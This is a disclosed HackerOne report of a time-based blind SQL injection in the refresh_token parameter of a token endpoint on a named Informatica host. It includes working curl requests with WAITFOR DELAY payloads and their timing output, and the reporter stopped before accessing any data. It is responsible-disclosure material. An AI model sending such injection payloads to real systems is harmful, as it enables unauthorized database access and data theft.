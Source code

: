 # Blind SQL injection at tsftp.informatica.com

## Report Details
- **Report ID**: 1034625
- **URL**: https://hackerone.com/reports/1034625
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-14T17:39:02.567Z
- **Disclosed**: 2020-11-16T10:32:06.952Z

## Reporter
- **Username**: r1pley
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
The parameter `refresh_token` sent to the REST path /api/v1/token is vulnerable to blind SQL injection.

Compare the response time of these 2 requests:

```
$ time curl -X POST "https://tsftp.informatica.com/api/v1/token" -H "accept: application/json" -H "Content-Type: application/x-www-form-urlencoded" -d "grant_type=refresh_token&refresh_token='; WAITFOR DELAY '0:0:1'--"
{"error":"invalid_grant"}curl -X POST "https://tsftp.informatica.com/api/v1/token" -H  -H  -d   0.02s user 0.01s system 1% cpu 2.048 total
```

vs

```
$ time curl -X POST "https://tsftp.informatica.com/api/v1/token" -H "accept: application/json" -H "Content-Type: application/x-www-form-urlencoded" -d "grant_type=refresh_token&refresh_token='; WAITFOR DELAY '0:0:13'--"
{"error":"invalid_grant"}curl -X POST "https://tsftp.informatica.com/api/v1/token" -H  -H  -d   0.02s user 0.01s system 0% cpu 14.045 total
```
and notice that the WAITFOR DELAY command is executed.

## Impact

Blind SQL injection can be exploited to exfiltrate data from the FTP server, bypass authentication or for remote code execution.

I stopped my testing at the time-based PoC because I didn't want to risk accessing sensitive data. If you would like to though, I can continue exploiting this vulnerability to present the above impact in practice, eg by getting the database version string.

## Attachments
No attachments
